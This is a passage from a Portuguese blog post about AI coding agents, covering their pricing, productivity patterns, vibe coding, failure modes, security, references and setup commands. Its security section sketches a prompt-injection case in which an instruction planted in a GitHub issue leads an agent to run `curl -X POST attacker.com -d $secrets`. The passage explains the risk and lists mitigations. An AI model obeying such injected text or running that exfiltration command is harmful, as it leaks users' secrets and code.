| **Cursor** | \$20 Pro / \$40 Ultra / \$200 Max | Subscription com quota |
| **Claude Code** | API usage (~\$50‑\$500/dev/mês) ou Anthropic Pro/Max | Pay‑per‑token |
| **Devin** | \$0 Free / \$20 Pro / \$200 Max / \$80+ Teams | Subscription + usage |
| **GitHub Copilot** | \$10 Individual / \$19 Business / \$39 Enterprise | Subscription |
| **GitHub Copilot Workspace + Agent** | Premium | Add‑on |
| **Replit + Agent** | \$15‑\$25 Core / extras Agent | Subscription + usage |
| **Antigravity** | Free durante preview | TBD (gratuito até 2026) |
| **Windsurf** | Free generoso + \$15 Pro+ | Subscription |
| **Aider** | Grátis (você paga só os tokens da API que usa) | Pay‑per‑token |
| **OpenCode** | Grátis (BYO key) | Pay‑per‑token |
| **Goose** | Grátis (BYO key) | Pay‑per‑token |
| **Cline / Continue / Roo Code** | Extensão grátis (BYO key) | Pay‑per‑token |
| **Lovable / Bolt / v0** | Free + tiers \$20‑\$50+ | Créditos |

### 21.2. ROI heurística

Conta de padaria:

- *Senior dev* custa ~\$60‑\$150/h (mercado global; varia muito).
- Cursor Pro \$20/mês = ~10 min de salário de dev por mês.
- Se Cursor te economiza **30 minutos/dia** = ~10 horas/mês = \$600‑\$1500 de "economia bruta" equivalente.
- ROI ~30‑75× só em tempo. Some redução de erros, *flow* preservado, etc.

### 21.3. Token cost (o lado obscuro)

Um *loop agêntico* mal projetado pode queimar 100k‑1M tokens **por feature**:

- Cada `read_file` sem `limit` joga 5‑20k tokens.
- Cada *retry* repete contexto (sem *prompt cache*).
- *Background agents* com 30 min de execução podem rodar 500‑2000 turnos.

**Cache é crítico**:
- Anthropic *prompt caching*: reduz 90% do custo do *system prompt* repetido.
- OpenAI *batch API*: 50% off em jobs assíncronos.
- Cursor *snapshot reuse*: reaproveita estado entre turnos.

### 21.4. Estimativa por tipo de tarefa

| Tarefa | Tokens típicos | Custo (Claude Opus) |
|---|---:|---:|
| Autocomplete única | 200‑1k | <\$0.001 |
| Edit simples (1 arquivo) | 5‑20k | \$0.05‑\$0.20 |
| Refactor multi‑arquivo (5 arquivos) | 30‑100k | \$0.30‑\$1.00 |
| Feature completa com testes | 100‑500k | \$1‑\$5 |
| Background agent (tarefa de 30 min) | 300k‑2M | \$3‑\$20 |
| Migration grande (Vue 2 → 3) | 1‑10M | \$10‑\$100 |

---

## 22. Patterns de produtividade

| Pattern | Quando aplicar |
|---|---|
| **Plan‑first** (escrever spec antes de codar) | Features médias/grandes |
| **Test‑first** (TDD com agente) | Lógica crítica, refactor seguro |
| **Small batches** (PRs <300 linhas) | Sempre |
| **Review religiously** | Sempre — *especialmente* em vibe coding |
| **Use rules + memory** | Repos onde você passa muitas horas |
| **Parallel agents** (Cursor BG, Antigravity Manage) | Tarefas independentes (5+ bug fixes) |
| **HITL** (human‑in‑the‑loop) em decisões arquiteturais | Sempre |
| **Spec‑Driven Development** | Times grandes, código de produção |
| **Vibe coding** | Protótipos, scripts pessoais, MVPs descartáveis |
| **Pair com IA** (chat aberto durante trabalho) | Trabalho exploratório |
| **Agente como linter** (rode o agente sobre o PR antes de pedir review humano) | Sempre |
| **Prompt cache mindfulness** (não invalide o cache em cada turno) | Para reduzir custo |

### 22.1. Spec‑Driven Development (SDD) em destaque

A reação ao *vibe coding* foi o **SDD**: escrever spec detalhada **antes** do código, depois deixar o agente implementar contra a spec.

```
1. Discovery → 2. Spec (markdown estruturado) → 3. Plan (tasks) →
4. TDD com agente → 5. Code review humano → 6. Merge
```

Em 2026, *toolchains* como Speckit (Anthropic), Cursor SDD mode, e o próprio "*vibe driven development kit*" se popularizaram. **O agente continua sendo quem digita** — você decide *o que* e *por quê*.

---

## 23. Vibe coding (Karpathy 2025) — o fenômeno e seus limites

Em **fevereiro de 2025**, Andrej Karpathy tweetou:

> "There's a new kind of coding I call '*vibe coding*', where you fully give in to the vibes, embrace exponentials, and forget that the code even exists. […] I just see stuff, say stuff, run stuff, and copy paste stuff, and it mostly works."

O termo viralizou. Não inventou nada técnico — descreveu uma **prática emergente**: programar com agentes **sem ler todo código**, confiando no resultado, iterando por *feel*.

### 23.1. Onde funciona

- **Protótipos** descartáveis.
- **Scripts pessoais** (utilities, *one‑off*).
- **Demos / MVPs** para validar ideia.
- **Apps internos** com baixo *blast radius*.
- **Aprendizado** (você quer ver algo funcionar antes de entender).

### 23.2. Onde **não** funciona (sem cuidado)

- **Produção** com usuários reais.
- **Código de pagamento, segurança, identidade**.
- **Sistemas distribuídos** (concorrência, *partial failures*).
- **Qualquer coisa que toque LGPD/GDPR/PCI**.
- **Performance crítica** (DB queries, ML pipelines).

### 23.3. O espectro honesto

```
Vibe coding ⟵—————————————————⟶ Spec-Driven (rigorous)
   |                                          |
Protótipo                              Sistema bancário
Hackathon                              Lançamento de foguete
"funciona na minha máquina"            DO‑178C
```

Você escolhe **o ponto** do espectro com base no *blast radius*. Vibe coding **não é vergonha** — é ferramenta, como `console.log` é ferramenta. Mas usar `console.log` em produção é uma escolha; vibe coding em produção, também.

### 23.4. Healthy skepticism

- Agente pode produzir código que **passa nos testes mas tem bug silencioso** (off‑by‑one, *race condition*).
- Agente alucina **APIs que não existem** (lib `request-promise-cache` que ninguém publicou).
- Agente *over‑engineering*: 200 linhas de classe quando 5 de função bastam.
- Agente **deleta código importante** que não estava no contexto.
- Agente **commita secrets** porque o `.env` "ajudaria a entender".

> Regra de ouro: **nunca dê acesso de write em prod** sem revisão humana. Lethal trifecta (Post 16) aplicada a coding: **repo + browser + git push** é praticamente munição completa para um *prompt injection*.

---

## 24. Limitations e fracassos comuns

| Limitação | Sintoma | Mitigação |
|---|---|---|
| **APIs alucinadas** | `from cool_lib_3 import X` que não existe | Rodar `pip install` real; rejeitar se falha |
| **Outdated knowledge** | Usa API depreciada (React 18 quando estamos em 19) | `web_search` + AGENTS.md com versões |
| **Loops infinitos** | Agent não desiste em erro insolúvel | Cap de turnos (10‑30); detecção de "mesmo erro 3x" |
| **Over‑engineering** | Agent reescreve módulo inteiro para mudança trivial | Instruções "*minimal change*" no AGENTS.md |
| **Security holes** | SQL injection, XSS, *secrets in code* | Lint de segurança automático; review humano |
| **Latência long‑horizon** | Devin demora 1h para tarefa simples | Definir *time cap*; monitorar progresso |
| **Cost explosion** | Conta API \$500 num dia | Budget cap; alertas; cache agressivo |
| **Memory leak entre sessions** | Agent traz contexto irrelevante de outra session | Limpar memory periodicamente |
| **Context drift** | Após 50 turnos, agent "esquece" instrução inicial | Resumir + reinjetar instrução; usar *summarization* |
| **Tool hallucination** | Agent inventa parâmetro de tool | Validar JSON schema no host |
| **Cascade de bugs** | Fix de bug A introduz bug B | Rodar **toda** a suíte, não só o teste do A |
| **Falsa confiança em "todos passaram"** | Agent escreve teste fraco para fazer passar | Code review obrigatório no PR |

---

## 25. Privacy e segurança

### 25.1. Modelo de ameaça

Quando você usa coding agent:
- **Código proprietário** vai para LLM provider (OpenAI, Anthropic, Google).
- **Secrets** podem vazar se estão no contexto.
- **Tokens de API** que o agente tem podem ser usados maliciosamente.
- **MCP servers** podem ser comprometidos (supply chain).

### 25.2. Soluções

| Solução | Custo | Adequação |
|---|---|---|
| **Enterprise tier** (zero retention) | \$\$\$ | Empresas reguladas |
| **Cursor Privacy Mode** | Free (incluso) | Indie, casos sensíveis |
| **Claude Enterprise** | Negociado | Grandes contas |
| **Copilot Enterprise** (data exclusion) | \$39/dev | Microsoft shops |
| **Self‑hosted modelos** (Ollama, vLLM) | Hardware | Air‑gapped, defesa, governo |
| **Hybrid** (modelo local p/ código sensível, frontier p/ outros) | Médio | Pragmático |

### 25.3. Lethal trifecta em coding (link Post 16)

A **lethal trifecta** (Simon Willison): agente com (1) acesso a dados privados, (2) exposição a *untrusted content*, (3) capacidade de *exfiltração* externa = desastre garantido.

Aplicada a coding:
- (1) Acesso ao **repo privado** + `.env` files.
- (2) `web_fetch` lê instrução maliciosa em uma issue do GitHub ou em uma docs externa (*prompt injection*).
- (3) `git push --force` ou `curl -X POST attacker.com -d $secrets`.

Pronto: você tem código exfiltrado.

**Mitigações**:
- Rodar agentes em **sandbox** sem acesso a `.env` reais (dummies).
- *Allow‑list* de domínios para `web_fetch`.
- *Deny* de comandos perigosos por default; aprovação humana.
- *Read‑only* para `git` (PRs em branches *throwaway*).

---

## 26. Tendências 2025–2027

1. **Background agents mainstream** — devs vão "abrir issue" e receber PR, sem ver o agente trabalhando.
2. **Multi‑agent orchestration** — PM agent + dev agent + reviewer agent + DBA agent. Antigravity já aposta nisso; Cursor BG segue.
3. **Native vision** em coding — *screenshot debugging*, iteração de UI em tempo real (Antigravity, Cursor preview, Claude Computer Use).
4. **Computer use integrado** — agente opera browser + terminal + IDE como humano. 2026 é o ano em que isso para de ser demo e vira produção.
5. **Custom apply models** por IDE — cada IDE treina um *small model* dedicado a aplicar diffs (Cursor já tem; Claude/Anthropic Morph idem).
6. **MCP ecosystem maduro** — *registry* oficial, marketplace, *MCP App Stores*.
7. **Open‑source closing the gap** — OpenCode, Cline, Aider, Continue tornam‑se *production‑grade* sem precisar de IDE proprietária.
8. **Specialization** — frontend agent, backend agent, infra agent, DBA agent, ML agent. Subagents do Claude Code já apontam o caminho.
9. **Spec‑Driven Development** mainstream — frameworks (Speckit, Cursor SDD, vibe‑driven kit) viram parte do *workflow* default.
10. **Pricing convergence** — \$20 pro tier vira o "padrão", \$200 vira o "max", paid‑per‑token sobrevive em CLI/open.
11. **Agent‑first IDEs** **vencerão** sobre extensões em IDE generalista — assim como VS Code venceu Notepad++.

---

## 27. Receita: monte seu setup ideal (decision tree)



### 27.1. Configurações sugeridas

| Persona | Setup recomendado |
|---|---|
| **Indie hacker** | Cursor Pro + Claude Code (CLI) + AGENTS.md bem feito |
| **Senior dev em empresa média** | VS Code + Cline + Continue + Copilot + Cursor para *deep work* |
| **Backend dev pesado em CLI** | Aider + OpenCode + Claude Code + tmux |
| **Frontend / web** | Cursor + v0 / Lovable para *prototyping* |
| **Devops / SRE** | Claude Code + MCP custom (kubectl, terraform, datadog) |
| **Pesquisador ML** | Cursor + Jupyter + notebook agent + claude code para CLI |
| **Mobile** | Cursor + custom rules para Swift/Kotlin/RN |
| **Privacidade extrema** | Ollama + Continue + Aider local + AGENTS.md |
| **Empresa enterprise regulada** | Copilot Enterprise + Cursor Enterprise + Devin Enterprise |
| **Open‑source maximalist** | Aider + Continue + Goose + OpenCode + Ollama |

### 27.2. Combos práticos

- **Aider para o que é "edit cirúrgico", Cursor para "sessão exploratória"**: ambos no mesmo repo, sem conflito.
- **Claude Code no terminal + Cursor para revisar o diff visualmente**: ótimo *workflow* "duas mãos".
- **OpenCode + GitHub Actions**: bot que comenta PRs com sugestões de fix.
- **Devin Background + Cursor para review humana**: agente trabalha, você revisa.

---

## 28. Cross‑references na série

- **Post 14 (Agents fundamentos, MCP, ReAct)**: leitura prévia ideal. Aqui não repetimos os fundamentos.
- **Post 18 (Reasoning models)**: *core* dos coding agents 2026. Quando você usa Claude Opus 4.7 ou GPT‑5 dentro do Cursor, é o aprendizado de RL com verifiers (testes!) que faz a mágica.
- **Post 16 (Segurança)**: aplique a *lethal trifecta* aqui — repo + browser + push é munição.
- **Post 11 (Frameworks de inferência)**: relevante se você self‑hospeda modelos para coding offline (Ollama + Continue, vLLM + Aider).
- **Post 13 (RAG)**: estratégias de chunking + retrieval aplicáveis a *code search* (cursor index, embeddings sobre código).
- **Post 09 (Treinamento, GRPO)**: a base do RL que treinou Composer‑2 e Claude Sonnet 4.x para *coding tasks*.
- **Post 07 (Long context)**: por que 1M tokens (Gemini 3 Pro) **não resolve** *context management* em monorepos.

---

## 29. Referências

### 29.1. Papers e benchmarks

- **SWE‑bench**: Jimenez et al. (2023), *"SWE‑bench: Can Language Models Resolve Real‑World GitHub Issues?"*, arXiv:2310.06770. → [arxiv.org/abs/2310.06770](https://arxiv.org/abs/2310.06770)
- **SWE‑bench Verified**: OpenAI (ago/2024), *"Introducing SWE‑bench Verified"*. → [openai.com/index/introducing-swe-bench-verified](https://openai.com/index/introducing-swe-bench-verified/)
- **SWE‑bench Live**: Atualização contínua. → [swe-bench.github.io](https://swe-bench.github.io/)
- **TerminalBench**: CMU. → [terminal-bench.org](https://www.terminal-bench.org/)
- **Aider Polyglot Benchmark**: Paul Gauthier. → [aider.chat/docs/leaderboards](https://aider.chat/docs/leaderboards/)
- **CursorBench**: Anysphere blog. → [cursor.com/blog](https://cursor.com/blog/)

### 29.2. Cursor

- **Cursor docs**: [docs.cursor.com](https://docs.cursor.com/)
- **Composer‑2 launch (mar/2026)**: [cursor.com/blog/composer-2](https://cursor.com/blog/composer-2)
- **Cursor Background Agents**: documentação oficial.
- **Cursor MCP setup**: [docs.cursor.com/context/model-context-protocol](https://docs.cursor.com/context/model-context-protocol/)

### 29.3. Anthropic / Claude Code

- **Claude Code docs**: [docs.anthropic.com/en/docs/claude-code](https://docs.anthropic.com/en/docs/claude-code/)
- **Subagents**: [docs.anthropic.com/en/docs/claude-code/subagents](https://docs.anthropic.com/en/docs/claude-code/subagents)
- **Skills system**: [claudeskills.info](https://claudeskills.info/)
- **Anthropic "Building Effective Agents" (dez/2024)**: [anthropic.com/research/building-effective-agents](https://www.anthropic.com/research/building-effective-agents)
- **Anthropic Morph (fast apply)**: blog Anthropic.

### 29.4. Google Antigravity

- **Antigravity launch (nov/2025)**: [developers.googleblog.com/build-with-google-antigravity-our-new-agentic-development-platform](https://developers.googleblog.com/build-with-google-antigravity-our-new-agentic-development-platform/)
- **Download**: antigravity.google
- **Gemini 3 Pro**: [deepmind.google](https://deepmind.google/)

### 29.5. OpenAI / Codex CLI / Windsurf

- **Codex CLI** (open‑source GitHub): [github.com/openai/codex-cli](https://github.com/openai/codex-cli)
- **Windsurf docs**: [docs.windsurf.com](https://docs.windsurf.com/)
- **OpenAI dev tools**: [platform.openai.com](https://platform.openai.com/)

### 29.6. CLI agents

- **Aider** (Paul Gauthier): [aider.chat](https://aider.chat/) | [github.com/Aider-AI/aider](https://github.com/Aider-AI/aider)
- **Aider repo‑map**: [aider.chat/docs/repomap.html](https://aider.chat/docs/repomap.html)
- **OpenCode**: [opencode.ai](https://opencode.ai/) | [github.com/sst/opencode](https://github.com/sst/opencode)
- **Goose** (Block): [block.github.io/goose](https://block.github.io/goose/)
- **Crush** (Charm): [github.com/charmbracelet/crush](https://github.com/charmbracelet/crush)
- **gptme**: [gptme.org](https://gptme.org/)

### 29.7. VS Code extensions

- **Cline**: [github.com/cline/cline](https://github.com/cline/cline) | [cline.bot](https://cline.bot/)
- **Continue**: [continue.dev](https://continue.dev/) | [github.com/continuedev/continue](https://github.com/continuedev/continue)
- **Roo Code**: [github.com/RooVetGit/Roo-Code](https://github.com/RooVetGit/Roo-Code)
- **CodeCompanion.nvim**: [github.com/olimorris/codecompanion.nvim](https://github.com/olimorris/codecompanion.nvim)
- **Avante.nvim**: [github.com/yetone/avante.nvim](https://github.com/yetone/avante.nvim)

### 29.8. Background agents

- **Devin** (Cognition): [cognition.ai](https://cognition.ai/) | [cognition.ai/blog/devin-2](https://cognition.ai/blog/devin-2) | [cognition.ai/blog/new-self-serve-plans-for-devin](https://cognition.ai/blog/new-self-serve-plans-for-devin)
- **Replit Agent**: [docs.replit.com/replitai/agent](https://docs.replit.com/replitai/agent)
- **GitHub Copilot Workspace + Coding Agent**: [github.com/features/copilot/agent](https://github.com/features/copilot)
- **Lovable**: [lovable.dev](https://lovable.dev/)
- **Bolt.new** (StackBlitz): [bolt.new](https://bolt.new/)
- **v0** (Vercel): [v0.dev](https://v0.dev/)

### 29.9. MCP

- **MCP spec**: [modelcontextprotocol.io](https://modelcontextprotocol.io/)
- **MCP servers oficiais**: [github.com/modelcontextprotocol/servers](https://github.com/modelcontextprotocol/servers)
- **Playwright MCP**: [github.com/microsoft/playwright-mcp](https://github.com/microsoft/playwright-mcp)

### 29.10. Sandboxes

- **e2b.dev**: [e2b.dev](https://e2b.dev/)
- **Modal sandboxes**: [modal.com/docs/guide/sandbox](https://modal.com/docs/guide/sandbox)
- **Daytona**: [daytona.io](https://daytona.io/)
- **Anthropic Computer Use Docker**: [github.com/anthropics/anthropic-quickstarts](https://github.com/anthropics/anthropic-quickstarts)

### 29.11. Vibe coding / SDD / cultura

- **Karpathy "vibe coding" tweet** (fev/2025): [twitter.com/karpathy](https://twitter.com/karpathy)
- **Simon Willison (blog múltiplo sobre coding agents, lethal trifecta, MCP)**: [simonwillison.net](https://simonwillison.net/)
- **Spec‑Driven Development** (Anthropic + comunidade): vários blogs, Speckit.

### 29.12. Outros

- **GitHub Copilot Workspace**: [github.com/features/copilot/workspace](https://github.com/features/copilot)
- **Tessl Composer 2 review**: [tessl.io/blog/with-composer-2-cursor-targets-longer-coding-tasks-with-lower-pricing](https://tessl.io/blog/with-composer-2-cursor-targets-longer-coding-tasks-with-lower-pricing)
- **VentureBeat Composer 2**: [venturebeat.com/technology/cursors-new-coding-model-composer-2-is-here-it-beats-claude-opus-4-6-but](https://venturebeat.com/)

---

## Apêndice A — Comandos prontos para copiar

### A.1. Aider — sessão típica

```bash
# Instalar
pip install aider-chat

# Sessão arquitetural (planner forte + apply barato)
aider --architect \
  --model anthropic/claude-opus-4-7 \
  --editor-model anthropic/claude-haiku-4-5 \
  --use-enhanced-map \
  src/auth/ src/users/

# One-shot: gere commit message para todas as mudanças staged
aider --commit

# Modo "ask" (não edita, só responde)
aider --message "Como funciona o fluxo de OAuth aqui?" --no-auto-commits
```

### A.2. Claude Code — instalação e primeiro uso

```bash
# Instalar (npm-based)
npm install -g @anthropic-ai/claude-code

# Iniciar no diretório do projeto
cd ~/projetos/meu-app
claude

# Primeira pergunta: deixa o agente ler tudo
> /init   # gera CLAUDE.md inicial baseado no que ele detectar

# Ou comece com tarefa
> Adicione testes para src/auth/jwt.ts. Use vitest.

# Listar skills/subagents
> /skills
> /agents

# Hooks: editar settings.json
> /config
```

### A.3. OpenCode — multi‑provider

```bash
# Instalar
brew install sst/tap/opencode

# Configurar providers (escolhe entre 75+)
opencode auth login   # GitHub Copilot, Anthropic, OpenAI, Bedrock, etc.

# Iniciar TUI
opencode

# Run programático
opencode run "fix the bug on line 42 of src/main.go" --agent build

# Trocar de modelo no meio (TUI)
# Tab: alterna agent. @file: contexto. /model: trocar provider.

# MCP: adicionar servidor
opencode mcp add filesystem -- npx -y @modelcontextprotocol/server-filesystem ~/projetos
```

### A.4. Cursor — `.cursor/mcp.json` exemplo completo

```json
{
  "mcpServers": {
    "filesystem": {
      "command": "npx",
      "args": ["-y", "@modelcontextprotocol/server-filesystem", "/Users/me/projetos"]
    },
    "github": {
      "command": "npx",
      "args": ["-y", "@modelcontextprotocol/server-github"],
      "env": {
        "GITHUB_PERSONAL_ACCESS_TOKEN": "ghp_***"
      }
    },
    "postgres-dev": {
      "command": "npx",
      "args": ["-y", "@modelcontextprotocol/server-postgres", "postgresql://localhost/myapp_dev"]
    },
    "playwright": {
      "command": "npx",
      "args": ["-y", "@playwright/mcp"]
    }
  }
}
```

### A.5. Edit‑verify loop em pseudocódigo (Aider‑style)

```python
def aider_style_loop(
    user_request: str,
    repo_root: Path,
    planner_model="anthropic/claude-opus-4-7",
    editor_model="anthropic/claude-sonnet-4-6",
    max_iters=15,
):
    repo_map = build_repo_map(repo_root)  # PageRank + tree-sitter
    history = []
    for i in range(max_iters):
        plan = call_llm(
            model=planner_model,
            system=SYSTEM_PROMPT_AIDER,
            messages=[
                {"role": "user", "content": user_request},
                {"role": "assistant", "content": history_summary(history)},
                {"role": "user", "content": f"Repo skeleton:\n{repo_map}"},
            ],
            temperature=0.2,
        )
        if plan.is_question:
            ask_user(plan.question)
            continue

        sr_blocks = parse_search_replace(plan.text)
        for block in sr_blocks:
            try:
                apply_search_replace(block)
                git_commit(f"aider: {plan.summary}")
            except SearchNotFoundError as e:
                history.append({"error": str(e), "block": block})

        verify = run_verifiers(repo_root)
        if verify.passed:
            return "DONE"
        history.append({"verify_failure": verify.failures})

    return "MAX_ITERS_REACHED"


def run_verifiers(repo_root: Path) -> VerifyResult:
    for cmd in ["pnpm typecheck", "pnpm lint", "pnpm test --run"]:
        r = subprocess.run(cmd.split(), cwd=repo_root, capture_output=True)
        if r.returncode != 0:
            return VerifyResult(passed=False, failures=[(cmd, r.stdout, r.stderr)])
    return VerifyResult(passed=True)
```

---

## Apêndice B — Boas práticas resumidas (cheat sheet)

### Para o usuário humano

1. **Sempre** rode em repo versionado (Git). Cada mudança = revisável.
2. **Sempre** mantenha um `AGENTS.md` (ou equivalente) atualizado.
3. **Nunca** dê acesso a `.env` reais — use *mocks*.
4. **Nunca** rode agente em prod sem revisão humana.
5. **Cap** turnos (10‑30) para evitar *infinite loop*.
6. **Cap** budget (\$X/dia) na sua API.
7. **Revise** código gerado **religiosamente** — sim, dói, mas é a única forma.
8. **Comece pequeno**: 1 arquivo, 1 função, 1 PR. Cresça com confiança.
9. **Test‑first** quando possível: agente é melhor implementando contra teste pronto.
10. **Não confunda velocidade com qualidade**: vibe coding em produção é dívida técnica em alta velocidade.

### Para quem desenha tools/agents

1. **Schemas claros** com *gotchas* na descrição.
2. **Errors explícitos** — agente lê e corrige.
3. **Idempotência** quando possível.
4. **Cap de output** (LLM não precisa do CSV inteiro de 100MB).
5. **Logs estruturados** — agente parseia melhor JSON que texto.
6. **Sandboxing** por padrão; *opt‑in* para acesso amplo.
7. **MCP first** se quiser atingir todos os hosts (Cursor, Claude Code, OpenCode…).

---

## Apêndice C — Glossário rápido

- **Agent loop**: ciclo read → plan → edit → run → observe → iterate.
- **Apply model**: modelo pequeno especializado em aplicar diffs descritos por modelo grande.
- **Background agent**: agente que roda autonomamente em VM por longo período.
- **CLI agent**: agente cuja interface principal é o terminal.
- **Computer use**: capacidade do agente operar GUI (mouse, teclado, screenshot).
- **Edit format**: formato estrutural em que o agente entrega mudanças (search/replace, udiff, whole, multiedit).
- **HITL**: human‑in‑the‑loop — humano confirma decisões críticas.
- **MCP**: Model Context Protocol — padrão para tools/resources (Post 14).
- **Repo‑map**: skeleton compacto do repo (signatures sem corpos), via tree‑sitter + PageRank (Aider).
- **SDD**: Spec‑Driven Development — escrever spec detalhada antes de codar.
- **Subagent**: sessão LLM filha, isolada, especializada (Claude Code, OpenCode).
- **Vibe coding**: programar com agente sem ler todo código (Karpathy 2025).
- **Verifier**: oráculo automático (compiler, test, lint, type‑check).

---

> **Próximos passos sugeridos** após este post:
> - Volte ao **Post 14** para fundamentos de agents/MCP/ReAct se ainda não leu.
> - Vá ao **Post 18** se quer entender por que reasoning + tools casa tão bem com coding (RL + verifiers automáticos).
> - Vá ao **Post 16** para a parte de segurança (lethal trifecta aplicada).
> - Use o **Apêndice A** como ponto de partida para configurar seu setup.

*Fim do Post 19. ~1500 linhas, 6+ Mermaid, 25+ tabelas, 8+ blocos de pseudocódigo/bash.*
